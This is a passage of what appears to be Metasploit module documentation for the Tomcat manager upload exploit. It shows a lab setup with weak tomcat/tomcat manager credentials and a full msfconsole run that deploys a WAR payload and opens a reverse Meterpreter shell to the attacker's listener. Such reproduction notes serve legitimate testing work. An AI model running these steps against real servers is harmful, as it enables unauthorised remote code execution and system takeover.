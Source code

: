     meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```

## Linux

### Tomcat6 (6.0.39) - Ubuntu server 14.04 64bit

#### Setup

1. Install Tomcat and dependencies: `sudo apt-get install tomcat6 tomcat6-admin`

#### Exploit

1. Edit `/etc/tomcat6/tomcat-users.xml` to add the following:

    ```
    <role rolename="manager"/>
    <user username="tomcat" password="tomcat" roles="manager"/>
    ```

2. Restart the service if a user was added/changed: `sudo service tomcat6 restart`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.156
    rhost => 192.168.2.156
    msf exploit(tomcat_mgr_upload) > set rport 8080
    rport => 8080
    msf exploit(tomcat_mgr_upload) > check
    
    [*] Tomcat Manager found running on linux platform and x64 architecture
    [!] No active DB -- Credential data will not be saved!
    [*] 192.168.2.156:8080 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Finding CSRF token...
    [*] Uploading and deploying biytXntmq4Dtie0ulwwT...
    [*] Uploading 6082 bytes as biytXntmq4Dtie0ulwwT.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing biytXntmq4Dtie0ulwwT...
    [*] Executing /biytXntmq4Dtie0ulwwT/rmslIdWH4LwPZlMkHipzUah.jsp...
    [*] Finding CSRF token...
    [*] Undeploying biytXntmq4Dtie0ulwwT ...
    [*] Sending stage (49409 bytes) to 192.168.2.156
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.156:55062) at 2017-01-15 20:29:42 -0500
    